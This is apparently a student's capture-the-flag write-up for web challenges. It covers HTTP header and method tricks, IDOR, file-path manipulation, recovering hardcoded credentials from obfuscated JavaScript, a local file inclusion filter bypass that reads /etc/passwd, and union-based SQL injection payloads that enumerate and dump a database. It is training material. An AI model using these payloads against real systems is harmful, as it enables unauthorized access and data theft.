









# Web
## JobOnCampus
>Can you help me reveal the IP Address of joboncampus.com?
>Flag format: CyberX{ip_address_here}

Given that domain is joboncampus.com. So we can find the ip address from [who.is](https://who.is)
```
CyberX{109.123.238.148}
```

## Robots
>Someone told me that this CTFd platform has a special file that tells web crawlers where they can and cannot go. Can you find where these instructions are stored?

As like the name of the challenge and hint which said file that tells web crawlers mean we need to go to [robots.txt](http://34.142.170.50/robots.txt) of CTFd platform

robots.txt contain URL which to tell web crawler if it allow to access to the site or not
```
CyberX{r0b0ts_3ndp01nt!}
```
## Know Your HTTP
>Think you know HTTP? Test your protocol manipulation skills by bypassing three layers of HTTP tricks.

In this challenge we need to manipulate the http request accroding to the requirement 



First stage is the request must come from https://google.com so we need to put this in our request form Referer: <URL>

Here I use burpsuite to modified and send request

```
GET / HTTP/1.1
Host: 34.142.253.73:1340
Accept-Language: en-US,en;q=0.9
referer: https://google.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: td_cookie=1420749027
Connection: keep-alive

```
Second stage is to add parameter secret with the value= protocol we use.



Since we use GET so we need to add parameter on the url not at the body of the request and protocol we use is HTTP (must use lowercase) I think so

```
GET /?secret=http HTTP/1.1
```
Last stage is to find the correct HTTP method so we refer to [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)


SO we try HEAD,PUT,DELETE,CONNECT,PATCH,TRACE Is not the right one then we try OPTIONS which show us the allow method can use

```
HTTP/1.1 200 OK
Date: Thu, 26 Dec 2024 04:46:03 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Allow: GET, POST, FLAG, OPTIONS
Access-Control-Allow-Methods: GET, POST, FLAG, OPTIONS
```
Also we see there is FLAG method which give the flag


```
CyberX{533m5-l1k3-y0u-kn0w-h77p-:))))}
```

## Let Him Cook
>It's midnight and you're hungry. Pixel Bites only takes mobile orders, but you only have your laptop. There's also a secret recipe hidden somewhere in their system - can you find it? Time to get creative!



It said need to use phone to access so we inspect element and choose smartphone view
which give us the menu to order and try to select some and place order to see what will happened


we got receipt and also a url where we can view the receipt


```
View your receipt at: /view_receipt.php?id=29
```
From this I think it is IDOR vulnerability where we can change the id value to view other receipt and maybe one of the receipt will contain the flag
so I try to search one by one and we got the flag in the receipt when the id = 7


```
CyberX{m0b1l3_4g3nt_1d0r_ch4ll3ng3}
```

## Totally Not Elearning
>One of the courses in my e-learning is locked because I didn't pass Network Communication last semester. Hmm, I've heard that you are good at web exploitation. Can you find out the content of the locked course?



Here I try to inspect element to view the source code which maybe can go into the locked course page and I found this
```
<a href="course1.php" class="course-link">
```
and try change 1 to 3 but still locked so next I try to look around on the course that is not locked and view the source code and found again that we can download course material file and the link also I think can be change the value which will download the locked course material file
```
<a href="download.php?file=course1_materials.pdf" class="download-button">Download Materials</a>
```
So we change the value course1 into course3 and press the button donwload and it will download a pdf file and yes the pdf contain the flag
```
CyberX{d1rect0ry_tr4vers4l_1s_n0t_c00l}
```

## Pressure
>A fresh intern at Dell Company was tasked with creating their first login page under intense pressure from management. While they succeeded in making it look professional with fancy animations and modern design, their JavaScript code looks like it went through a blender full of random characters, strange encoding, and some questionable choices for hiding sensitive data.

First enter we need to login to get the flag and from the description of the challenge it use javascript for the login and I view the js code and it was obfusticate so cannot read. 

so we try to use online tools [deobfuscate.io](https://deobfuscate.io)

but when paste the code into it, gives message
```
Your code looks like it has been obfuscated using Obfuscator.io, would you like to go to the deobfuscator specific for that?
```
which said that it detect that the code is obsucated by other online tools , so I think we go the page which maybe will give better clear result (I try the first tools it not give better result)

and it show the username and password to login
```
const login = {
  'config': {
    'validUsername': "admin",
    'validPassword': "ilovecatsandcars",
    'successMessageDuration': 0xbb8
  },
```
and got the flag
```
CyberX{w3ird_l0ok1ng_js}
```

## Leaky Vault
>A junior developer's first "secure" vault website just went live, proudly serving confidential documents through their "advanced" PHP file handling system. The way they manage document retrieval paths seems... interesting. Can you try to read the source code of the website?

HINT
>The page variable value seems to be sanitized by this function here.
$page = str_replace('../', '', $page);

First I go through all the page but nothing found then I check the source code and found comment
```
<!-- Check /etc/passwd for the system configuration -->
```
ok I think the flag is inside it so I try to go to the page through this url
```
http://34.142.253.73:1342/?page=../etc/passwd
http://34.142.253.73:1342/?page=../../etc/passwd
http://34.142.253.73:1342/?page=home.txt/../../etc/passwd
http://34.142.253.73:1342/?page=../etc/passwd%00
```
All fail and last one got error if I put null byte
```
Warning
: file_exists() expects parameter 1 to be a valid path, string given in
/var/www/html/index.php
on line
13
```
So Here I stop and do other challenge until the hint comeout where it replace the ../ into '' so if there is ../ inside the url it will remove
to bypass 
```
http://34.142.253.73:1342/?page=.../...//etc/passwd
http://34.142.253.73:1342/?page=.../...//.../...//.../...//.../...//etc/passwd
```
the first one is failed so I though maybe need to add more ../ so I add yes we got into etc/passwd. However htere is no flag. So I got think where more can it hide the flag. After think it maybe hide inside the source code so I remember that I got error when I put null byte which show path of the index.php which maybe the source code so we try. and BINGO we got the flag :>

```
<?php
class Challenge {
private $flag = "CyberX{L0c4l_F1l3_1nclus10n_1s_Fun!}";
```

## Shoot the SQL
>Our new website's search function lets you browse through our extensive catalog of products and accessories. However, our junior developer might have forgotten some basic security practices while implementing the product search feature. Can you find a way to exploit this oversight and retrieve unauthorized information from our database?



This challenge is sql challenge whcich I hope there is no this kind of SQL challenge in this CTF but yeah Im dead.
We need to enter text and search it will give table.

The sql it use is
```
SELECT * FROM inventory WHERE name LIKE '%value%'
```
so if we enter 'a' and search it will matches any string that contains the letter a.
So first I try to print out all data inside the table where maybe there is flag inside it
```
' UNION SELECT * FROM inventory -- #
```
enter this into the search bar if not # it fail after I put # its ok. But there is no flag inside it

after that I dont know what to do (and I realy not understand about union based SQL) so I google and ask chatgpt for help and it said try this to find the database name which we get 'halloween_invetory'
```
'  UNION SELECT NULL, NULL, NULL, NULL, DATABASE() -- #
```
So after that I have idea to list all table inside the database 'halloween_invetory'

```
'  UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = DATABASE() -- #
```
it has table flag and inventory. Here we see the light and now we need to find the column name of the table
```
' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name = 'flag' AND table_schema = DATABASE() -- #
```
where the column name is flag

so try to print the data 
```
' UNION SELECT NULL, flag, NULL, NULL, NULL FROM flag -- #
```
and Got the flag

```
CyberX{U4N10nnn_1s_w1nnn}
```
### This some Error I encounter for the SQL 
Where we use union we need to have same number of column since inventory use select * which all column (5) so 
```
' UNION SELECT * FROM flag -- #
The used SELECT statements have a different number of columns
```
so I try to test add Null and check if there is error and yes the inventory has 5 column where I should have know since when we input 'a' only it give 5 column table. So yes experience to understand better. So here I have understand better ...

Next how to print the flag when we have know the column flag so i do some experiment but got syntax error
```
'  UNION SELECT NULL, NULL, NULL, NULL, SELECT * FROM flag -- #
```
should not have select * again since we have put select in the front and we can directly put column name before from to print the data
```
'  UNION SELECT NULL, NULL, NULL, NULL, flag FROM flag -- #
```

